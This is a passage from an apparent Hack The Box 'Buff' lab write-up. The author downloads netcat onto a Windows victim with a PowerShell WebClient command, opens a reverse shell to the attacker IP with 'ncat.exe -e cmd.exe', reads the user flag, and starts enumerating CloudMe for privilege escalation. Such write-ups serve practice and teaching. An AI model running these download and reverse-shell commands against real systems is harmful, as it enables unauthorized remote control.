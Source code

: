 This shell gets a bit frustrating. 
Now we need to get a interactive command shell of the machine, because this is so trash so in order to get a command line shell we need to upload following `netcat.exe`.
Download it from [**Here**](https://github.com/int0x33/nc.exe?files=1)
Stand up a `Simple Python HTTP Server` and a `nc` listener locally on `port 4444`, then in `vicitm machine` download and run `netcat.exe`

[**Attacker Machine**]

```shell
ezi0x00@kali:~/HTB/Buff$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
```shell
ezi0x00@kali:~/HTB/Buff$ nc -lvnp 4444
listening on [any] 4444 ...
```
[**Victim Machine**]

```shell
C:\xampp\htdocs\gym\upload> powershell -c IEX(New-Object Net.WebClient).DownloadFile('http://10.10.16.11/nc.exe','ncat.exe')
�PNG
▒
C:\xampp\htdocs\gym\upload> .\ncat.exe -e cmd.exe 10.10.16.11 4444
```
we did it:
```shell
ezi0x00@kali:~/HTB/Buff$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.11] from (UNKNOWN) [10.10.10.198] 50033
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>cd /users/shaun/Desktop
cd /users/shaun/Desktop

C:\Users\shaun\Desktop>type user.txt
type user.txt
959c13a32734085a****************
```
## Privilege Escaltion

Do some enumeration, show the `tasklist` to look at the currently running processes. 
The list is long but what caught my eye.
```shell
C:\Users\shaun>tasklist
tasklist

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
......snip......

CloudMe.exe                   7500                            0     27,308 K

......snip......
```
Now we want where's this program? to know more about it. So search for the file on the system to see if where it’s stored.
first i searched to know any exploit about it 
```shell
ezi0x00@kali:~/HTB/Buff$ searchsploit cloudme 
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```